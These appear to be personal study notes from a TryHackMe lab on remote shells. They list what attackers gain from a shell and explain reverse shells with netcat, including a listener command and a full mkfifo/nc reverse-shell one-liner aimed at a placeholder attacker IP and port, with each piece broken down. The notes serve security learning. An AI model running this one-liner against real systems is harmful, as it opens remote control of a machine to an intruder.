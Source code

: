 (a recap since it's a fresh year - again, I will organise all this 'stuff' in this somewhat book at some stage...)
Many thanks to THM Lab https://tryhackme.com/r/room/shellsoverview

Remote shelling allows several 'things' from an attack perspective:
- Remote System Control
	- Gives the attacker the ability to execute commands or software remotely in the target system
- Privilege Escalation
	- If the initial remote session through a shell is limited/restricted - the attacker(s) can explore ways to escalate privileges to more elevated or administrative access
- Data Exfiltration 
	- Once the adversaries have access to execute commands through an obtained shell, they can then explore the system to read, and perhaps copy sensitive data from it
- Persistence and Maintenance Access
	- Once shell access is gained, attackers could then create access through users and credentials or copy backdoor software to maintain access to the target system for later usage
- Post-Exploitation Activities
	- Once shell access is gained, adversaries can perform a range of post-exploitation activities - ie, deploying malware, creating hidden accounts, and deleting information
- Access Other Systems on the Network
	- Depending on what intent the attacker(s) have, the obtained shell could just be an initial access point. The end game goal or focus could be to hop through the network on to different hosts or target machines using the obtained shell as a pivot to different points in the compromised systems network. 
		- Pivoting

Reverse Shell (aka Connect Back Shell)
- Connection initiates from the target system back to the attackers machine
- Can assist in avoiding detection from network firewalls and other security appliances
	- Netcat Tool
		- Supports multiple OSs and allows reading and writing through a network
		- The attacker's machine will have netcat (`nc`) listening on a local port
			- ie `nc -lvnp 443`
			- `nc -help` for more information or `man nc`
		- Any port can be used, however, it could be intended to use a more commonly used port so as to blend in to seem like the outbound connection if pointing towards something legitimate
		- Gaining a Reverse Shell
			- A reverse shell payload would have to be executed
				- This usually abuses the vulnerability or unauthorised access granted by the attacker and executes a command that will expose the shell through the network
				- Here are some: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
			- An example:
				- `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <attackers_ip> <attackers_port> >/tmp/f`
				- `rm -f /tmp/f`
					- Removes any existing named pipe located at /tmp/f/
					- This ensures that the script can create a new named pipe without any other files conflicting with it
					- `mkfifo /tmp/f`
						- Creates a named pipe, or FIFO (first-in, first-out) at `/tmp/f`
						- Named pipes allow for two-way communication between processes
						- In this instance, it acts as a conduit for input and output
					- `cat /tmp/f`
						- reads data from the named pipe
					- `| sh -i 2>&1`
						- the output of the above cat read, is piped into a shell instance (`bash -i`). This will allow the perpetrator to execute commands interactively
						- The `2>&1` redirects standard error to standard output, so that they go back to the attacker remotely (otherwise the errors wouldn't get to them)
					- `| nc <attackers_ip> <attackers_port> >/tmp/f`
						- Pipes the shell's output through netcat (`nc`) to the attackers ip-address:port 
						- `>/tmp/f`
							- This part sends the output of the commands back into the named pipe, allowing for bi-directional communication
